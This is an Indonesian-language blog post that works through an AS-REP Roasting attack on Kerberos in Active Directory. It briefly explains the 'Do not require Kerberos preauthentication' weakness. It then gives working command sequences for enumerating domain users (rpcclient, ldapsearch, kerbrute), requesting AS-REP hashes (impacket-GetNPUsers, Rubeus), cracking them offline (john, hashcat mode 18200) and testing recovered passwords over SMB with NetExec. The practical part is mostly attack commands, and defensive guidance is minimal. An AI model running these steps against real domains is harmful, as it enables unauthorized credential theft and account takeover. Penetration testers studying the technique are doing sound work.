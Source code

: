 ```yaml
---
layout: post
title: "Kerberos: AS-REP Roasting Attack (Active Directory)"
date: 2024-01-05 07:00:00 +0700
categories: "Active-Directory-Pentesting"
---
```


AS-REP Roasting adalah teknik serangan yang mengeksploitasi kelemahan dalam sistem otentikasi Kerberos di lingkungan Active Directory. Dengan serangan ini, Attacker mencoba memperoleh TGT (Ticket Granting Ticket) dari User dengan memanfaatkan AS-REP (tanggapan) yang dihasilkan oleh Kerberos. Serangan ini dapat dilakukan meskipun **tanpa otentikasi** atau dengan kata lain **tanpa perlu menggunakan password User yang rentan**.

**Mengapa bisa terjadi?**

Hal ini terjadi dikarenakan User yang rentan terhadap AS-REP Roasting itu mengaktifkan konfigurasi `Do not require Kerberos preauthentication`.

![Do not require Kerberos preauthentication](https://github.com/xchopath/www.novr.one/assets/44427665/8c045741-dcff-4d81-b579-c935c720fba9)

Jika AS-REP berhasil didapatkan, maka Attacker akan mencoba mengurai isi dari TGT tersebut untuk mendapatkan password yang terkandung di dalam TGT-nya, hal ini dapat dilakukan dengan metode seperti Brute Force yang dilakukan secara offline.

Yang harus kita ketahui:
- Authentication Server Request (AS-REQ)
- Authentication Server Response (AS-REP)
- Ticket Granting Ticket (TGT)
- Kerberos Preauthentication

<br/>

# Hunting Domain Users

## Recon

1. RPCClient
```sh
rpcclient <ip domain controller> -N
enumdomusers
```

2. ldapsearch
```sh
ldapsearch -x -H 'ldap://<ip domain controller>' -b "dc=<host domain>,dc=<tld>" | grep 'userPrincipalName' | tr '@' ' ' | awk '{print $2}'
```

## User Enumeration

Install kerbrute
```
go install github.com/ropnop/kerbrute@latest
sudo mv ~/go/bin/kerbrute /usr/local/bin/
```

Run
```
kerbrute userenum <users list file> --domain <domain> --dc <ip domain controller>
```

![kerbrute](https://github.com/xchopath/www.novr.one/assets/44427665/598efc12-1a8a-4d4a-9bd7-dca975589bf9)

<br/>

-----

<br/>

# AS-REP Roasting

## 1. Do AS-REQ to get AS-REP

Terdapat berbagai macam cara dan berbagai macam Tool untuk melakukan AS-REQ.

### Using Impacket

Install
```
sudo apt install impacket-scripts -y
```

Run
```sh
impacket-GetNPUsers <domain>/<user> -dc-ip <ip domain controller> -request -no-pass
```

![Impacket AS-REP Roasting](https://github.com/xchopath/www.novr.one/assets/44427665/62e4f21f-c1e1-4a60-9cb0-3806a7666ba6)


### Using Rubeus

Install
- <https://github.com/GhostPack/Rubeus>

Run
```
Rubeus.exe asreproast /outfile:hashes.txt /format:hashcat [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]
```

<br/>

## 2. Cracking AS-REP (Roasting)

### Using John

Command
```sh
john --wordlist=<passwords file> <as-rep file>
```

![AS-REP Roasting with JOHN](https://github.com/xchopath/www.novr.one/assets/44427665/cd92cfa1-6bf2-4330-878a-04159a5b9a6f)

### Using Hashcat

Command
```sh
hashcat -m 18200 -a 0 <as-rep file> <passwords file>
```

![Hashcat AS-REP Roasting 1](https://github.com/xchopath/www.novr.one/assets/44427665/f87fff78-dd05-476f-9766-799ff7a0bc68)

![Hashcat AS-REP Roasting 2](https://github.com/xchopath/www.novr.one/assets/44427665/fd922647-de8b-4f95-8845-68dae3304675)

<br/>

-----

<br/>

# Test Authentication

## Using NetExec (FKA CrackMapExec) via SMB Port 445

Install
```
git clone https://github.com/Pennyw0rth/NetExec
cd NetExec
sudo pip3 install .
```

Run
```
NetExec smb <ip target> -u <username> -p <password>
```

![NetExec](https://github.com/xchopath/www.novr.one/assets/44427665/71125f62-12a5-46ca-9a6f-a46650dd8b06)
